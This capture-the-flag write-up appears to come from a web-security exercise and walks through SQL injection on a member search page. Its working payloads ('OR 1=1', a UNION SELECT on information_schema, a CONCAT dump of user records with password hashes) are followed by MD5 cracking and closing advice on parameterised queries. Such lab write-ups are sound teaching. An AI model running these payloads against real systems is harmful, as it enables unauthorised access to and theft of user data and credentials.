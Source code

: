 # Sql injection on members table

<!-- We could explain what is an sql injection before all -->

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

## Legit search

First of all trying searching for a userID of `1` results:

Input:
```sql
1
```

Output
```txt
ID: 1 
First name: one
Surname : me
```

We can see that the server returns two user fields.

## Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:
```sql
SELECT * from users
```

Output:
```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server show us the raw MariaDB error, we see that our query has been added to a prebuilt one.
The prebuild query should look like something:
```sql
SELECT first_name, surname FROM users WHERE users.id = ${id} 
```

## Condition injection

To be able to retrieve to whole users table entry we need to create a sql query that'is always true.
We can then add the condition `1=1` always resulting as true.

Input:
```sql
1 OR 1=1
```

Resulting on the server as:
```sql
SELECT first_name, surname FROM users WHERE users.id = 1 OR 1=1
```

Output:
```
ID: 1 OR 1=1 
First name: one
Surname : me
ID: 1 OR 1=1 
First name: two
Surname : me
ID: 1 OR 1=1 
First name: three
Surname : me
ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

There are four users in the users table. The last one looks quite suspicious.

## UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As a first SQL query is build using our input. By using the UNION SELECT attack we could build a new query over the first one.

Input: ( 1=1 is to make the first prebuild server query always succeed )
```sql
1=1 UNION SELECT * FROM users
```

Output:
```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more than the initial `sql query` 2 columns.


## Finding all tables columns name

Our goal is to retrieve all the `users` table columns names to be able to gather them using the `UNION SELECT` injection.
To do so we will be using the default database `information_schema.columns` information

Input:
```sql
1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:
```
<!-- OTHER DATABASE INFORMATION -->

ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

## Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve all the users entry columns value within on column, as the initial query returns only 2 columns.

Input:
```sql
-1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1
FROM users
```

Output:
```sql
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: one
Surname : me
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` containted in the `countersign` users table column that leads to `FortyTwo`
Hashing using sh256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


## Solution

A solution to avoid this kind of breach would to escape received using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent sql injections

Php Example:

Unsecured sql querying:
```php
$statement = $dbh->prepare("select * from users where email = {$email}");
$statement->execute();
```

Secured sql querying:
```php
$statement = $dbh->prepare("select * from users where email = ?");
$statement->execute(array(email));
```

Node Example:

Unsecured sql querying:
```js
connection.query(
  `select * from users where email = ${email}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:
```js
connection.query(
  'select * from users where email = ?',
  [email],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```